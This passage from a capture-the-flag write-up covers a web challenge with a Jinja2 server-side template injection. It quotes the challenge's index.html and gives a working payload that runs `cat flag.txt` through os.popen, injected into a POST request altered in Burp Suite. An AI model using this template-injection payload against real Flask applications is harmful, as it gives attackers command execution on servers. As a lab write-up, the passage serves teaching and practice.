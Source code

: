 Notice that **only POST request is accepted**, so be careful when you intercept the request. The `stats` array contains **un-sanitized user input** and the function is return a `render_template_string` that can cause a SSTI vulnerability. But, how we can manipulate the POST request ? **Play a little bit and when you lose, you can intercept using burp suite**.

Here's the POC when I read the flag. Basically, this payload is to import the `os` and use `popen` to cat the `flag.txt` .

```python
damage_dealt={{config.__class__.__init__.__globals__['os'].popen('cat+flag.txt').read()}}&damage_taken=100&spells_cast=2&turns_survived=3&outcome=defeat&battle_duration=18.116
```

![Trial by Fire-02](/images/htb-cyber-apocalypse_web1-02.png)

Okay, now let's manipulate the POST request to `/battle-report` in the remote target. Here's the POC:

![Trial by Fire-03](/images/htb-cyber-apocalypse_web1-03.png)

Actually, you can see the SSTI vulnerability directly in the given source code, specifically in the `/challenges/application/templates/index.html` . As the result, in the index page, it will show `49` that multiplied value of `7*7` .

```html
<!-- index.html -->

<body>
  <div class="home-container nes-container is-rounded">
    <h1 class="nes-text is-error">Welcome to the Flame Peaks</h1>
    <p class="nes-text">
      In a land of burning rivers and searing heat, the Fire Drake stands guard over the Emberstone. Many have sought its power; none have prevailed.
      <br><br>
      Legends speak of ancient template scrolls—arcane writings that twist fate when exploited. Hidden symbols may change everything.
      <br><br>
      Can you read the runes? Perhaps {{ 7 * 7 }} is the key. <!-- SSTI -->
    </p>

    <form action="/begin" method="POST" class="warrior-form nes-container is-rounded">
      <div class="form-group">
        <label for="warrior_name" class="nes-text is-error">What is your name, brave warrior?</label>
        <input type="text" id="warrior_name" name="warrior_name" class="nes-input" required placeholder="Enter your name..." maxlength="30" style="background-color: rgba(17, 24, 39, 0.95);">
      </div>
      <button type="submit" class="nes-btn is-error challenge-button">
        ⚔️ Challenge the Fire Drake
      </button>
    </form>
  </div>
</body>

```
